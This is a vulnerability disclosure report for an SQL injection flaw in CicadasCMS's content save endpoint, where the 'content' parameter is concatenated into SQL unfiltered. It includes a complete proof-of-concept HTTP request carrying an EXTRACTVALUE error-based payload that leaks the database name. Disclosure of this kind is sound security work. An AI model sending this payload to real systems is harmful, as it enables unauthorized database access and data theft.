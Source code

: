 ### 💥 Vulnerability Report : SQL Injection in

------

**1. Product:**

- **Name:**  CicadasCMS
- **Version:** latest version
- **Repository:** https://gitee.com/westboy/CicadasCMS

------

**2. Vulnerability Type:**

- **Type:** SQL Injection (SQLi)

------

**3. Affected Component(s):**

- /content/save

------

**4. Attack Vector(s):**

Attackers can inject malicious SQL statements through the content parameter in the save interface. The backend directly obtains this parameter without input filtering or parameter precompilation, leading to SQL injection.

**5. Proof of Concept (PoC):**

```
POST /system/cms/content/save HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 751
Origin: http://localhost
Connection: close
Referer: http://localhost/system
Cookie: bjui_theme=blue; SESSION=f43bf728-f5bf-4110-9b1f-58cca099b88a
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

contentId=1249&userId=1&siteId=1&tableName=&status=0&title=%E4%B9%98%E7%9D%80%E6%AD%8C%E5%A3%B0%E7%9A%84%E7%BF%85%E8%86%80%E2%80%94%E2%80%94XXX%E5%B8%82%E9%9F%B3%E4%B9%90%E5%AE%B6%E5%8D%8F%E4%BC%9A%E6%96%87%E8%89%BA%E5%BF%97%E6%84%BF%E5%B0%8F%E5%88%86%E9%98%9F%E8%B5%B0%E8%BF%9B%E5%B8%82%E7%AC%AC%E5%9B%9B%E4%B8%AD%E5%AD%A6&keywords=XXX%E5%B8%82%E9%9F%B3%E4%B9%90%E5%AE%B6%E5%8D%8F%E4%BC%9A%E6%96%87%E8%89%BA%E5%BF%97%E6%84%BF%E5%B0%8F%E5%88%86%E9%98%9F%E8%B5%B0%E8%BF%9B%E5%B8%82%E7%AC%AC%E5%9B%9B%E4%B8%AD%E5%AD%A6&description=&categoryId=226&thumb=&url=&recommend=on&viewNum=242&author=%E9%83%AD%E5%B0%8F%E5%88%9A&tags=&content=' OR (SELECT EXTRACTVALUE(1,CONCAT(0x7e,(SELECT DATABASE()),0x7e))) OR '1&fujian=&laiyuan=XXX%E5%B8%82%E6%96%87%E8%81%94
```



If vulnerable, the response will contain an error message such as:



![image-20251030094805612](cve.assets/image-20251030094805612.png)

**6. Vulnerable Code Reference**

src/main/java/com/zhiliao/module/web/cms/ContentController.java

![](cve.assets/image-20251030095204805.png)

src/main/java/com/zhiliao/module/web/cms/ContentController.java

![image-20251030100422988](cve.assets/image-20251030100422988.png)





src/main/java/com/zhiliao/module/web/cms/service/impl/ContentServiceImpl.java

![image-20251030100317828](cve.assets/image-20251030100317828.png)

src/main/java/com/zhiliao/module/web/cms/service/impl/ContentServiceImpl.java

![image-20251030095852738](cve.assets/image-20251030095852738.png)

src/main/java/com/zhiliao/module/web/cms/service/impl/ContentServiceImpl.java

![image-20251030095811962](cve.assets/image-20251030095811962.png)



The above code receives the 'content' parameter input from the client and directly concatenates it into the SQL statement without any filtering or precompilation. Therefore, an attacker can inject SQL statements through the 'content' parameter, leading to an SQL injection vulnerability.



**7. Impact:**

- Data leakage (e.g., database users, names)
- Potential unauthorized access
- Escalation to full compromise depending on DBMS



**8. References:**

https://gitee.com/westboy/CicadasCMS